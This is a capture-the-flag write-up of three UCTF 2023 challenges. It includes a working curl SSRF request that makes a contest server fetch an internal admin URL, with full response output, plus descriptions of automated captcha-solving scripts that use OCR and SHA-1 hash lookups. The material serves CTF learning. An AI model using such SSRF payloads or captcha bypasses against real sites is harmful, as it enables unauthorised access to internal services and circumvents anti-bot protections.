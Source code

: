 <h1>Writeup for Uctf</h1>

I played Uctf with the Cyber_jedi team.I solved three challenges.

- E corp
- Captcha-1
- Captcha-2
  
### E-CORP

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4a7787e9-13b7-4b7d-a62b-5c2aa7537d60)

     In this web challenge,the website allows access to posts made by users.So,I viewed the source code and discovered a vulnerable code snippet in the api endpoint <u>'/api/view.php'</u> code.The main task in the challenge is to load a website that can't be accessed outside i.e if not connected to their network
The vulnerable code snippet is

  
    <script>
        const API_PATH = '/api/view.php';

        async function fetchPost(id) {
            const fetchResult = await fetch(API_PATH, {
                method: 'POST',
                cache: 'no-cache',
                headers: {
                    'Content-type': 'application/json'
                },
                body: JSON.stringify({ post: `file:///posts/${id}` })
            });

The api receives a request containing json data and uses the file:/// wrapper to load post already saved with a user's id
The api endpoint code loads any url submitted to it without any form of restrictions and it makes it susceptible to Server Side Request Forgery which occurs when a website is induced to load a particular url.I gained access to the websit
e by using the vulnerable endpoint to access it via Curl.  
### Curl request 
  
    curl https://ecorpblog.uctf.ir/api/view.php -v -X POST --header 'Content-Type:application/json' -d '{"post": "http://admin-panel.local/"}'

#### RESPONSE
    * Using Stream ID: 1
    > POST /api/view.php HTTP/2
    > Host: ecorpblog.uctf.ir
    > User-Agent: curl/8.2.1
    > Accept: */*
    > Content-Type:application/json
    > Content-Length: 37
    * TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
    * TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
    * old SSL session ID is stale, removing
    < HTTP/2 200
    < date: Sun, 03 Sep 2023 13:33:41 GMT
    < content-type: application/json
    < content-length: 50
    < vary: Accept-Encoding
    < x-powered-by: PHP/7.2.34
    < x-xss-protection: 1; mode=block
    < server: ArvanCloud
    < x-sid: 4101
    < server-timing: total;dur=98
    < x-request-id: b72a53f22b5cf18d0b1bb14a5cf75106
    < accept-ranges: bytes
    <
    * Connection #1 to host ecorpblog.uctf.ir left intact
    {"status":"success","post":"uctf{4z174_1n_urm14}"}


###  CAPTCHA | 1


![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d4727e88-fc5b-45a2-bcf1-b88c35dc4ab8)

In this challenge,the main task was to solve 300 captchas to get the flag.

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/e479126f-3992-41e4-b65c-80318ea0d37b)

I noticed that text in the image can be read with the aid of OCR(optical character recognition).I created a script to autosolve it using python modules(pytessercat module,requests,base64).
### My Approach

- Submitted a request to the url and submitted the first captcha
- Use split() function to collect the base64 bytes of the image
- Decoded it with the base64 module,stored the data in an already created png file
- Used Pytesseract to extract the text from the png image
- Used a class function to submit the captcha value

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/53bb8258-1fe7-4283-88bd-1b741da3d621)

This is the link to the script <a href="https://github.com/SENSEIXENUS2/s3nse1.github.io/blob/main/posts/ctf/UctfWriteups/captcha1.py">Captcha1's script</a>
### Flag

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/792c2ae1-b0b4-40ab-9b8b-5c0211f1e47e)

### Captcha | 2
![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/bc0aee7c-03c0-4f3d-bb98-5204644d6982)


In this challenge,the task was to submit 100 captchas but it was different this time because the captcha pictures were replaced with images stored on the server and the images contained pictures of an animal and can't be read with OCR

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/57ef689d-77c7-49e1-a5bf-7c225118f85c)

I viewed the source code of the site and I noticed that images' names on the server were in hash format.

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9bdcc9cf-24c5-44b8-908b-46da5b4a515f)

I copied the hash and pasted it in on Google and got this answer from a Hashlookup site.The dev created a sha-1 hash using the animal's name and used the hash as the picture's name.

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/17464781-1cce-4466-821d-3b5db40ee582)


You can recreate the hash by using python3 hashlib module.

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4c58ab58-c8af-4f7b-9a4f-65ac057be9b0)


I created a python script to automate the whole process and collect the flag.I used python modules(hashlib,requests and re)
### Code summary
- I created a class function that collects the Sha-1 hash and returns the animal's name if the hashed animal name is equal to the hash provided to the function.The names of the animals are stored in a list and iterated in a for loop
where it is hashed and compared against the hash provided and if the hashes are equal,it returns the animal's name and breaks the for loop
- I also created another class to submit the captcha after it has been cracked and another class function to extract the hash using regex format [A-Z0-9]{40}.

### Script result and flag

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8edc3592-4145-46cd-8f8e-ab419dbd1499)

Link to the script <a href="https://github.com/SENSEIXENUS2/s3nse1.github.io/blob/main/posts/ctf/UctfWriteups/captcha2.py">Captcha2's script</a>


Link to my teammates(grepppp and hackyou)' writeup <a href="https://gr33pp.github.io/posts/urmia-ctf-2023/writeup">Greppp</a> <a href="https://h4ckyou.github.io/posts/ctf/uctf/writeup.html">Hack you</a>

Thanks for reading!!!
